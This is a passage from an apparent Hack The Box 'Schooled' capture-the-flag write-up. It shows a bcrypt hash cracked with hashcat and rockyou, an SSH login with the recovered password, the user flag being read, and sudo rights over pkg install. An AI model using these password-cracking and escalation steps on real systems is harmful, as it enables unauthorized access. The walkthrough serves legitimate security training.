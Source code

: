 Find the mode from [here](https://hashcat.net/wiki/doku.php?id=example_hashes):

```text
3200    bcrypt $2*$, Blowfish (Unix)
```

Run hashcat using rockyou wordlist:

```text
┌──(root💀kali)-[~/htb/schooled]
└─# hashcat admin.hash /usr/share/wordlists/rockyou.txt -m 3200
hashcat (v6.1.1) starting...
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Host memory required for this attack: 65 MB
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:<HIDDEN>

Started: Thu Sep 23 22:00:08 2021
Stopped: Thu Sep 23 22:04:06 2021
```

## User Flag

We've found the password for Jamie, so now we can ssh on as him:

```text
┌──(root💀kali)-[~]
└─# ssh jamie@schooled.htb                          
The authenticity of host 'schooled.htb (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'schooled.htb,10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021
jamie@Schooled:~ $
```

Let's get the user flag before we look further:

```text
jamie@Schooled:~ $ cat /home/jamie/user.txt 
<HIDDEN>
```

One of the first things I tried after that was sudo privleges:

```text
jamie@Schooled:~ $ sudo -l

User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
